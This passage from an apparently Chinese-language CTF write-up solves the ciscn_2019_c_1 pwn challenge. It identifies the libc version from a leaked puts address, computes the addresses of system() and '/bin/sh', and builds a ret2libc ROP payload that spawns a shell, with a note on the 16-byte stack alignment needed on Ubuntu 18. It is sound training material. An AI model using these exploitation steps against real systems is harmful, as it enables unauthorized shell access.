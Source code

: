 我调试的机器是 CentOS7.7 ，使用 `LibcSearcher` 找不到`puts`为0x6b0对应的libc版本，需要先添加到[libc-database](https://github.com/niklasb/libc-database)

```shell
ldd ciscn_2019_c_1 
# libc.so.6 => /lib64/libc.so.6 (0x00007f6746632000)
python3 -m pip show LibcSearcher | grep Location
# Location: /home/LibcSearcher
cd /home/LibcSearcher/libc-database/
# cd 到LibcSearcher依赖的libc-database目录
./add /lib64/libc.so.6
./find puts 6b0
# 输出对应的libc库的id

# ところで、也可以稍微验证下有没有找对libc https://stackoverflow.com/a/22997894/8706476
objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep puts
# 或者更直接一些 https://stackoverflow.com/a/4514781/8706476
nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep puts
```

计算`system()`:

```python
from LibcSearcher import *

obj = LibcSearcher("puts", libc_puts)

libc_base = libc_puts - obj.dump("puts")
libc_sys = libc_base + obj.dump("system")
libc_binsh = libc_base + obj.dump("str_bin_sh")
log.info(f'libc base={hex(libc_base)}; system={hex(libc_sys)}; /bin/sh={hex(libc_binsh)}')
```

拼接payload：

```python
proc.sendlineafter("choice!\n", "1")
payload = b'\x00' * 0x58 + p64(pop_rdi) + p64(libc_binsh) + p64(libc_sys)
proc.sendline(payload)

proc.interactive()
```

上述代码在本地CentOS7.7可以成功拉起shell，然而拉到线上就 segfault. 查阅网上资料发现这是因为Ubuntu18调用system之前会检查栈顶是否对齐16字节，要加上一个ret(相当于加8字节)去尝试。完整的代码在[这里]({{ site.url }}/assets/ciscn_2019_c_1.py)

## Reference

1. [LiuLian: ciscn_2019_c_1](https://darkwing.moe/2019/11/26/ciscn-2019-c-1/)
2. [暗羽: ciscn_2019_c_1](http://liul14n.top/2020/01/29/ciscn-2019-c-1/)
